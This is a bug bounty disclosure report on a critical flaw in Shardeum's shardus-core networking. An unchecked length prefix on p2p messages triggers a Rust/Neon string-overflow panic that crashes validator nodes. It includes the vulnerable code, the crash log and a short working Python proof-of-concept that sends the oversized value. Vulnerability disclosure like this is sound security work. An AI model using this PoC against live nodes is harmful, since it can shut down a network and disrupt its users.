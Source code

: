 
# Validators can be crashed via p2p

Submitted on Jul 20th 2024 at 11:29:33 UTC by @usmannk for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33428

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro
An attacker can cause a rust panic via p2p, crashing arbitrary nodes on the network. Repeating this simple process takes down the network.

This is a fatal error and pm2 does not recover from it.

## Vulnerability Details
The shardus net listener does the following on new connections:
```rust
async fn receive(socket_stream: TcpStream, remote_addr: SocketAddr, received_msg_tx: UnboundedSender<(String, SocketAddr, Option<RequestMetadata>)>) -> ListenerResult<()> {
  let mut socket_stream: TcpStream = socket_stream;
  while let Ok(msg_len) = socket_stream.read_u32().await {
      let mut buffer: Vec<u8> = vec![0; msg_len as usize];
```

If an attacker sends a byte that decodes to a value larger than `(2**29)-24`, this vec will be allocated to that size and passed to the JS runtime via Neon as a string and cause the following panic:

```
11|"shardus-instance-9009"  | thread '<unnamed>' panicked at /Users/usmannkhan/.cargo/registry/src/index.crates.io-6f17d22bba15001f/neon-0.10.1/src/types/mod.rs:509:36:
11|"shardus-instance-9009"  | called `Result::unwrap()` on an `Err` value: StringOverflow(536870889)
11|"shardus-instance-9009"  | note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
11|"shardus-instance-9009"  | [Error: A panic occurred while executing a `neon::event::Channel::send` callback] {
11|"shardus-instance-9009"  |   panic: [Error: called `Result::unwrap()` on an `Err` value: StringOverflow(536870889)]
```

## Impact Details
Total network shutdown.

## Reference

See https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/length#description for more info on max string length.


## Proof of Concept
The following python script will crash a node running at `127.0.0.1:10009`:
```python
import socket
def connect(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('127.0.0.1', port))
    return s
MAX_STR_LEN = 2**29 - 24
s = connect(10009)
val = bytes.fromhex(hex(MAX_STR_LEN + 1)[2:])
s.send(val)
s.close()
```